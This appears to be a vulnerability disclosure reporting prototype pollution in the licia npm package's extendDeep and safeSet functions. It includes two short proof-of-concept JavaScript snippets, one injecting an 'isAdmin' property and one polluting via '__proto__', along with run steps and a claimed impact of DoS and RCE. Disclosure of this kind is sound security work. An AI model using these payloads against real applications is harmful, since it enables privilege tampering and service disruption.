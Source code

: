 # Description
licia package is vulnerable to prototype pollution issue 
files can be found in  https://github.com/liriliri/licia/blob/master/src/e/extendDeep.js & https://github.com/liriliri/licia/blob/master/src/s/safeSet.js#L46
# Proof of Concept 
1. Creating poc filed
```js
var utils = require('licia');
var src = {};
let object = utils.extendDeep({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```

```js
var licia = require('licia');
var src = {};
licia.safeSet(src, "__proto__.polluted", "pwned!");
console.log(polluted);
```

2. Execute command npm install licia
3. Execute command node poc.js
* https://drive.google.com/file/d/1Ef61xgYB6Tzq1We_OiitWUqne0H9skGe/view?usp=sharing
# Impact
Prototype pollution which could lead to DOS and RCE
